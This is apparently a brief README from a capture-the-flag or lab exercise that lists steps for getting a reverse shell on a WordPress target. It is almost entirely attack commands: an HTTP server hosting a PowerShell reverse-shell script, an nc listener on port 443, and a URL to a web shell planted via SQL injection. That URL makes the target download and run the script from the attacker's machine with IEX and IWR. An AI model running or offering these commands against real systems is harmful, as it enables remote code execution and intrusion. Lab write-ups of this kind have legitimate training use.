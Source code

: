 ## haha yes shitty wordpress site go brrrrrrrrrrrrrrrrrrrrrrrrrr

### 1: host http server for target to get exploit ps1 (might need to change host in ps1 file).
```
sudo python3 -m http.server 80
```
### 2. create ncat listener for shell
```
sudo rlwrap nc -nvlp 443
```
### 3. go to the updates url we created with the sqli and start the script
```
http://10.10.10.167/updates.php?c=powershell%20IEX(IWR%20http://10.10.14.39/Invoke-PowerShellTcp.ps1%20-UseBasicParsing)
```
